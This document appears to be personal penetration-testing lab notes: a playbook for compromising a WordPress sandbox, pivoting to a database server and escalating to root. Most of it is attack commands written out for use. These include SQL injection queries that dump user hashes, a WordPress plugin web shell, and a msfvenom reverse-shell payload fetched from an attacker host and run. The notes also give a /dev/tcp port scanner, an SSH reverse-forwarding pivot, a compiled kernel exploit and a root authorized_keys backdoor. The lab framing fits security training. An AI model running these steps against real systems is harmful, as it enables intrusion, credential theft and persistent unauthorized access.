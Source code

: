 Public Enumeration
	May have to add the domain to etc/hosts file
		sudo cp /etc/hosts /etc/hosts.orig
		sudo bash -c " echo '10.11.1.250 sandbox.local' >> /etc/hosts".

	Scan with Nmap


Web App Enum
	Ferobuster
	Source checking
	XSS checking
	Burpsuite
	Enum Plugins and known vulns
	Admin interfaces


SQL Injection
	
	table_name FROM information_schema.tables
	column_name FROM information_schema.columns WHERE table_name='wp_users'
	user_login FROM wp_users
	user_pass FROM wp_users


Password Cracking

	echo 'Password' > pass.txt
	john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt


Admin Interface Enum

	'Info' tab should show system and database info
	For WP plugin shell
		cd /usr/share/seclists/Web-Shells/WordPress
		sudo zip plugin-shell.zip plugin-shell.php
		curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
	
	For getting Meterpreter shell
		msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=AttackerIP LPORT=AttackerPort -f elf > shell.elf
		sudo python3 -m http.server 80
		curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://AttackerIP/shell.elf
		curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
		sudo msfconsole -q -x "use exploit/multi/handler;\
        	set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
			set LHOST AttackerIP;\
			set LPORT AttackerPort;\
			run"
		curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf



Web Server Post-Exploit Enum

	ifconfig
		look for any other NICs, or any other subnets this PC would talk to
	hostname
	cat /etc/issue
	cat /proc/version
	pwd
	cd /var/www/html && ls -alh
	cat config.php
	uname -a
	netstat -tulpn

	Other subnets? Wanna run a port scan?
		#!/bin/bash
		host=10.5.5.11 (Or Target IP)
		for port in {1..65535}; do
		    timeout .1 bash -c "echo >/dev/tcp/$host/$port" &&
		        echo "port $port is open"
		done
		echo "Done"


Pivotting

	In this example, we'll set up a reverse port forward

		Kali = Attacking Machine
		Abby = Compromised WebServer / WordPress Server
		Betty = Targeted Database Server

	Abby is a webserver that was compromised with a no-login account - www-data. To pivot to Betty, we'll use reverse port forwarding. If we had root access and/or could log into Abby, then we could do it differently.

	The below command would use Abby's ssh client to open port 1122 and 13306 on Kali and would point to 22 and 3306 on Betty.

		(To be run on Abby): ssh -f -N -R 1122:(Betty's IP):22 -R 13306:(Betty's IP):3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa Kali@IPAddress

	BUT! Before we do this, we need to make some ssh keys so Kali won't ask Abby for a password.
	To do this, we'll generate the key on Abby, and configure Kali to accept the key and restrict what Abby is allowed to do through SSH

		(To be run on Abby):
		mkdir keys
		cd keys
		ssh-keygen
		/tmp/keys/id_rsa
			(Enter Passphrase)
		cat id_rsa.pub

	To prevent anyone from using Abby to run commands on Kali, we add the below into the ~/.ssh/authorized_keys file on Kali

		from="(NAT IP / Firewall / DMZ IP)",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ... www-data@Abby



	Make the keys on Abby, then add the above command into the ~/.ssh/authorized_keys file on Kali, then run the ssh remote port forwarding command on Abby

		test with "sudo netstat -tulpn" to look for listening ports.
		We should now be able to hit ports 22 and 3306 on Betty by aiming at 127.0.0.1:1122 and 127.0.0.1:13306 on Kali



	TL:DR


		Kali = Attacking Machine
		Abby = Compromised WebServer / WordPress Server
		Betty = Targeted Database Server


		Run this on Abby

			mkdir keys
			cd keys
			ssh-keygen
			/tmp/keys/id_rsa
				(Enter Passphrase)
			cat id_rsa.pub

		Then add this to the Kali ~/.ssh/authorized_keys file

			from="(NAT IP / Firewall / DMZ IP)",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ...public ssh-key... www-data@Abby

		Then run this command from the WebServer

			ssh -f -N -R 1122:(Betty's IP):22 -R 13306:(Betty's IP):3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa Kali@KaliIP

		test with "sudo netstat -tulpn" to look for listening ports. Should now be able to hit Betty from Kali


Database Enum


	Login to Database using valid creds from other enumeration

		SHOW Grants;
			see permissions on the account
		SHOW variables;
			see hostname, plugin_dir, tmpdir, version, version_compile_machine

		Searchsploit time!

			While searching through exploits, see if the exploit is basically just running certain system commands. If so, we can run them manually.



Linux Privesc

	ifconfig
		look for any other NICs, or any other subnets this PC would talk to
	hostname
	cat /etc/issue
	cat /proc/version
	pwd
	cd /var/www/html && ls -alh
	cat config.php
	uname -a
	netstat -tulpn

	Hunt for kernel exploits. Check for compiler on the box for more consistent compiling
		gcc
		find / -name gcc -type f 2>/dev/null


	If not, God's will be done. Fire away.
		cp /usr/share/exploitdb/exploits/linux/local/45010.c ./
		gcc 45010.c -o 45010
		upload /home/kali/45010 /tmp/
		cd /tmp
		chmod +x 45010
		./45010

SSH KeyGen

	If you have root access and want to SSH in use the below


	No ssh keys yet?

	From the attacking box:
		ssh-keygen
		cat:~/.ssh/id_rsa.pub


	Made the keys? Already had some from before?

	From the compromised box:
		mkdir /root/.ssh
		echo "ssh-rsa ...Kali PubKey... kali@attacker" > /root/.ssh/authorized_keys


	Then ssh into the compromised box as root. 




High-Level Playbook




Public Enumeration

	
	sudo nmap -sC -sS -p0-65535 sandbox.local


Web App Enum

	
	Ferobuster to enum Directories


		WordPress? Use below for more accurate results
			wpscan --url sandbox.local --enumerate ap,at,cb,dbe

		Search searchsploit carefully for plugins


	SQL Injection


		table_name FROM information_schema.tables
		column_name FROM information_schema.columns WHERE table_name='wp_users'
		user_login FROM wp_users
		user_pass FROM wp_users